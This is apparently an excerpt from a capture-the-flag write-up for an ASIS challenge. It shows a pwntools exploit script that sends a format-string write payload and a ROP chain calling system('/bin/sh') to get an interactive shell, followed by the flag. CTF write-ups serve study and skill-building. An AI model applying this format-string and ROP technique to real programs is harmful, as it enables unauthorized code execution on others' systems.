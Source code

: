 ```python!=
log.info("Destination: %s", destination)
destination = int(destination,base=16) -16
p.sendline(b'1')
p.recv()
payload2 = str('%16c%14$hhn%{}c%15$hn'.format(destination).ljust(32,'.')).encode() + p64(rip_stack) + p64(rbp_stack)
payload2 += cyclic(56) + p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(sys_func)
p.send(payload2)
time.sleep(0.2)
p.recv()
p.sendline(b'2')
time.sleep(0.2)
p.recv()
p.sendline(b'4')
p.interactive()
```
:bulb: **==Flag: ASIS{text_editing_has_never_been_so_fun_d1fd2}==**

